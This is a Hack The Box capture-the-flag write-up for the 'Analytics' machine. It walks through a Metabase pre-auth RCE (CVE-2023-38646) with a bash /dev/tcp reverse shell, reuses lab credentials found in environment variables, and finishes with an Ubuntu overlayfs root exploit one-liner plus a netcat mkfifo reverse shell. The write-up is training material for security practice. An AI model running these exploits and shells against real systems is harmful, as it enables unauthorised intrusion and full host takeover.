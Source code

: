 ```yaml
---
layout: post
title: Analytics - Hackthebox
categories:
- Writeups
- Hackthebox
tags:
- Metabase
- RCE
- overlayfs
- docker
- Environment Variables
- Linux
- CVE-2023-38646
- CVE-2023-2640
- CVE-2023-32629
img_path: "/assets/img/analytics"
image:
  path: machine_img.png
  alt: analytics
---
```


## Recon

We detect two services running, ssh(port 22) and nginx(port 80).

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)

```

### Hosts File

Nginx shows a redirect message so we add the following hostname to the hosts file(`/etc/hosts`): `analytical.htb` 

## Foothold

Login page takes us to `data.analytical.htb`. We had the subdomain to hosts file and access it.
We notice a service running called `Metabase`. Searching for exploits for `Metabase` we found one very recent: `https://github.com/kh4sh3i/CVE-2023-38646`.
Looking into the endpoint `api/session/properties`, we get the version `v0.46.6` of metabase, which confirms that is vulnerable to this exploit.

```json
"version":{
       "date":"2023-06-29",
       "tag":"v0.46.6",
       "branch":"release-x.46.x",
       "hash":"1bb88f5"
    },
```

However the exploit does not work properly and we had to use the following poc: `https://github.com/robotmikhro/CVE-2023-38646`. 
For detailed information about the vulnerability: `https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/`

```shell
nc -lvnpo 1234
python3 single.py -u http://data.analytical.htb -c "bash -i >& /dev/tcp/10.10.14.175/1234 0>&1"
```

With shell into the machine we know that we are inside a docker container because the resources that we have are very limit.
Looking at the environment variables we found a username(metalytics) and password(An4lytics_ds20223#) for the metabase.

```shell
$ env
env
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=b171a1ee0a25
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/plugins
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
OLDPWD=/

```

Trying the username and password with the ssh service we got a shell as metalytics: `ssh metalytics@10.10.11.233`

## Privilege Escalation

Once we run linpeas we notice that we do not have a way to gain privilege escalation using files, permissions or crontabs.
This means that the OS or kernel may be exploitable. The OS running is: `Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux`. 

We tried the following CVE's: CVE-2023-0179(https://github.com/TurtleARM/CVE-2023-0179-PoC)  and CVE-2023-0386(https://github.com/w0r7h/CVE-2023-0386) but not get root.

Since the machine is running Ubuntu 22.04 with the kernel version 6.2.0-25-generic we know that the kernel version in this OS has two vulnerabilities CVE-2023-2640 and CVE-2023-32629 in the overlayfs module that lets escalate privileges locally without needing additional permissions. We found this vulnerability in the following links:
- https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/
- https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability

To execute commands as root:
```shell
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cat /root/root.txt")'
```

To gain a shell as root:
- First, get the netcat version: `nc -h` : `OpenBSD netcat (Debian patchlevel 1.218-4ubuntu1)`
- Second, start a netcat listener: `nc -lvnp 1235`
- Third, send [reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-busybox) for that netcat version:
```shell
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.175 1235 >/tmp/f")'
```

